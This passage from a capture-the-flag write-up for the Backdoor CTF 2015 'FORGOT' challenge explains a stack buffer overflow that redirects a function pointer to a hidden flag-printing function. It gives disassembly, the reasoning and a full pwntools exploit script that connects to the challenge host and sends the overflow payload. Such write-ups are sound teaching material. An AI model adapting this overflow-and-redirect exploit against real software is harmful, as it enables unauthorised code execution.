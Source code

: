 >.text:080486ED                 mov     [esp], eax
>.text:080486F0                 call    _snprintf
>.text:080486F5                 lea     eax, [ebp-3Ah]
>.text:080486F8                 mov     [esp], eax
>.text:080486FB                 call    _system
>.text:08048700                 leave
>.text:08048701                 retn
>```

The function just_made_it is followed by a 'hidden' function that reads the flag file and displays it to us. So all we have to do now is overflow v8 to overwrite v9 with the address of our 'hidden' function. The application is kind enough to give us a pointer to a function in the binary (even though this isn't strictly necessary):

>```c
>  printf("I should give you a pointer perhaps. Here: %x\n\n", end_with_dot);
>```

So we can calculate the address of our function as an offset from the supplied address. The v8 buffer is 32 bytes long so we simply write 32 bytes of junk followed by the calculated address of the 'hidden' function:

>```python
>#!/usr/bin/python
>#
># Backdoor CTF 2015
># FORGOT (PWN/200)
>#
># @a: Smoke Leet Everyday
># @u: https://github.com/smokeleeteveryday
>#
>
>from pwn import *
>from struct import pack, unpack
>import re
>
>offset = 0x78 # offset from end_with_dot to 0x080486CC
>
>host = 'hack.bckdr.in'
>h = remote(host, 8009, timeout = None)
>print h.recvuntil('> ')
>
>name = "420"
>h.send(name + "\n")
>
>msg = h.recvuntil('> ')
>print msg
>
># Get end_with_dot address
>m = re.findall("Here:\s(.*?)$", msg, re.MULTILINE)
>
># Calculate target address
>end_with_dot_Addr = int(m[0], 16)
>targetAddr = end_with_dot_Addr + offset
>
># Send exploit buffer
>valstr = "A" * 32 + pack('<I', targetAddr)
>h.send(valstr + "\n")
>
>print h.recvall()
>h.close()
>```
